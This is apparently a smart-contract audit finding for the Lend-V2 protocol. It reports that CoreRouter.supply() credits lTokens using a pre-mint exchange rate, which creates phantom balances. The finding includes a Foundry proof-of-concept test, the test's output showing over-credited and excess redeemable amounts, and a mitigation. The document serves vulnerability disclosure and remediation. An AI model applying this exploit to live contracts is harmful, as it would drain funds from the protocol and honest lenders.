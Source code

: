 # Incorrect lToken Credit Calculation in CoreRouter.supply()

## Summary
Using the pre-mint exchange-rate snapshot will cause inflated lToken credits for every supplier and therefore an eventual shortfall for the protocol & honest users, a malicious supplier will be recorded with more lTokens than were ever minted and can later redeem or borrow against that phantom balance.

## Root Cause
In `CoreRouter.sol` the router fetches `exchangeRateStored()` before calling `LToken.mint()`, then calculates the expected lTokens and stores that value in `lendStorage.totalInvestment`.

**Reference**: [CoreRouter.sol#L80](https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2/src/LayerZero/CoreRouter.sol#L80)

In `LToken.sol` (`mintInternal → mintFresh`) the `mint()` path first executes `accrueInterest()` and re-computes the exchange-rate after receiving the cash, minting fewer lTokens than the router assumed.

Because the router never checks its post-mint balance, `totalInvestment` drifts upward with every supply.

## Pre-conditions

### Internal Pre-conditions
1. A supplier calls `CoreRouter.supply(amount, token)` with `amount > 0`
2. Exchange rate inside the target LToken must change between the router's snapshot and the internal `mint()` calculation
3. This happens automatically because `mint()` calls `accrueInterest()` and `doTransferIn()` adds cash

### External Pre-conditions
N/A

## Impact
The protocol treasury and honest lenders suffer a loss equal to the cumulative over-credit—potentially *100% of surplus cash plus reserves.

## Proof of Concept

```solidity
function test_exchange_rate_discrepancy() public {  
    vm.startPrank(deployer);  

    // Setup  
    address token = supportedTokens[0];  
    address lToken = lendStorage.underlyingTolToken(token);  
    uint256 supplyAmount = 100e18; // Reduced amount to avoid overflow  

    // Mint initial tokens to deployer  
    ERC20Mock(token).mint(deployer, supplyAmount * 2); // Mint extra for borrowing  
    IERC20(token).approve(address(coreRouter), supplyAmount * 2);  

    // First supply to get initial exchange rate  
    coreRouter.supply(supplyAmount, token);  

    // Create a borrower and have them borrow to generate interest  
    address borrower = makeAddr("borrower");  
    vm.stopPrank();  
    vm.startPrank(borrower);  
      
    // Supply collateral for borrower  
    ERC20Mock(token).mint(borrower, supplyAmount);  
    IERC20(token).approve(address(coreRouter), supplyAmount);  
    coreRouter.supply(supplyAmount, token);  
      
    // Borrow to generate interest  
    coreRouter.borrow(supplyAmount / 2, token);  

    // Move time forward to accrue interest  
    vm.roll(block.number + 1000);  
    vm.warp(block.timestamp + 30 days);  

    vm.stopPrank();  
    vm.startPrank(deployer);  

    // Record balances before second supply  
    uint256 routerLTokensBefore = LTokenInterface(lToken).balanceOf(address(coreRouter));  
      
    // Get exchange rate before mint  
    uint256 exchangeRateBefore = LTokenInterface(lToken).exchangeRateStored();  
      
    // Do second supply  
    coreRouter.supply(supplyAmount, token);  

    // Calculate what router thinks it minted  
    uint256 expectedMintTokens = (supplyAmount * 1e18) / exchangeRateBefore;  
      
    // Get actual minted tokens  
    uint256 actualMintTokens = LTokenInterface(lToken).balanceOf(address(coreRouter)) - routerLTokensBefore;  

    // Get what's recorded in storage for this specific supply  
    uint256 storedInvestmentForThisSupply = expectedMintTokens; // This is what the router recorded  
    uint256 actualMintedForThisSupply = actualMintTokens; // This is what actually got minted  

    // Log all relevant values  
    console2.log("Exchange rate before:", exchangeRateBefore);  
    console2.log("Exchange rate after:", LTokenInterface(lToken).exchangeRateStored());  
    console2.log("Stored investment for this supply:", storedInvestmentForThisSupply);  
    console2.log("Actually minted for this supply:", actualMintedForThisSupply);  
    console2.log("Difference (phantom tokens):", storedInvestmentForThisSupply - actualMintedForThisSupply);  
      
    // The stored investment should be higher than actual minted amount  
    assertGt(storedInvestmentForThisSupply, actualMintedForThisSupply,   
        "Stored investment should be higher than actual minted amount due to exchange rate change");  

    // Calculate how much underlying can be redeemed with phantom tokens  
    uint256 phantomTokens = storedInvestmentForThisSupply - actualMintedForThisSupply;  
    uint256 exchangeRateAfter = LTokenInterface(lToken).exchangeRateStored();  
    uint256 excessRedeemable = (phantomTokens * exchangeRateAfter) / 1e18;  
    console2.log("Excess redeemable underlying:", excessRedeemable);  

    vm.stopPrank();  
}
```

### Test Results
```plaintext
[PASS] test_exchange_rate_discrepancy() (gas: 1074678)
Logs:  
  Exchange rate before: 200000000000000000000000000  
  Exchange rate after: 200002675513729496869944711  
  Stored investment for this supply: 500000000000  
  Actually minted for this supply: 499993311305  
  Difference (phantom tokens): 6688695  
  Excess redeemable underlying: 1337756895695304  

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 5.77ms (785.17µs CPU time)
```

## Recommended Mitigation
Measure the actual lTokens minted:

```solidity
uint256 before = LTokenInterface(_lToken).balanceOf(address(this));  
require(LErc20Interface(_lToken).mint(_amount) == 0, "mint failed");  
uint256 mintTokens = LTokenInterface(_lToken).balanceOf(address(this)) - before;  
```